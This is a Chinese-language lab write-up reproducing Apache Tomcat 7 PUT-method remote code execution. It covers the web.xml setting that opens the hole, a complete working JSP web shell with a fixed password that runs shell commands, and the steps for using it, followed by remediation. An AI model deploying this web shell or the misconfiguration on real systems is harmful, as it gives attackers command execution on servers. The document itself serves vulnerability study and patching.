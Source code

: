 # 远程代码执行

**影响版本：Apache Tomcat 7.0.0 - 7.0.81**

**原理：**Tomcat 运行在Windows 主机上，且启用了 HTTP PUT 请求方法，可通过构造的攻击请求向服务器上传包含任意代码的 JSP 文件，造成任意代码执行。

**复现**

修改web.xml配置文件，增加代码，重启服务器

```
<init-param>
     <param-name>readonly</param-name>
     <param-value>false</param-value>
</init-param>
```



![](1.png)

访问192.168.3.135:8080抓包，修改请求方式为PUT，创建shell.jsp文件，并用%20转义空格字符，发送请求内容为一句话木马

```
<%
   if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
//使用方式
//访问http://ip/shell.jsp?pwd=023&i=ipconfig
```



![](2.png)

返回201 Created，说明创建成功。

服务器根目录下已经收到shell.jsp

![](4.png)

访问192.168.3.135/shell.jsp?pwd=023&i=ipconfig，直接执行了i参数的值

![](3.png)



执行calc命令，可以弹出计算器

![](5.png)

![](6.png)

**修复**

1. 禁用PUT方法

   ```
   <init-param>
        <param-name>readonly</param-name>
        <param-value>true</param-value>
   </init-param>
   ```

   

2. 升级tomcat版本